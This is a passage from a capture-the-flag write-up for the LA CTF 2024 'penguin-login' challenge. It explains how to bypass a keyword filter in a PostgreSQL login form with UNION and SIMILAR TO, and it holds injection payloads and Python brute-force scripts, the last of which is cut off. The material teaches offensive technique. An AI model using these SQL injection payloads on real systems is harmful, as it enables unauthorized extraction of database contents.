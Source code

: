 There are services (like [OneCompiler](https://onecompiler.com/postgresql/), that allow you to execute code directly online. Always make sure 100% when using these services that you have selected the right DBMS.

<img class="img-responsive" src="/lactf2024/penguin-login/img/OnlineExample.png" alt="Example of using OneCompiler to verify the result of an unconventional query">

##### Proceed in phases
It's helpful to reason in phases the first few times. In mathematics, we can start skipping steps during calculations, but only because we've become familiar enough:

- Identify your goal: in this case, "I want to get the flag" -> "I want to get all the characters of the record that starts with the flag format and ends with `}`".
- Write it down as you would normally: `SELECT name WHERE name LIKE 'lactf{ % }'`.
- Rewrite it bypassing whitelist and blacklist: `SELECT name WHERE name SIMILAR TO 'lactf{_}'` with as many `_` as there are characters in the flag.
- Combine the two techniques shown previously: `SELECT name WHERE name SIMILAR TO 'lactf{_}'` + `SELECT * FROM penguins WHERE name = '%s'` -> remembering that the only column in the DB is `name`, and that we can only write commands in place of `%s`: `SELECT * FROM penguins WHERE name = '' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}'`

The payload will simply be what we wrote in this last phase, which is `' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}`

### Constructing the payload
At this point, all we have to do is construct a `UNION` with a `SIMILAR TO` instead of the more popular `LIKE`. In my case: `' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}`.

I'm not sure if there was a more convenient way to get the length of the flag, but I just added underscores until I got a positive result. These are the payloads useful for extracting the flag, modified from those used during the competition:

`findlen.py`
```py
from requests import *

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    if r.status_code == 200:
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```

`findflag.py`
```py
from requests import *
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    if len(payloadEnd) > 0:
        payloadEnd = payloadEnd[:-1]
```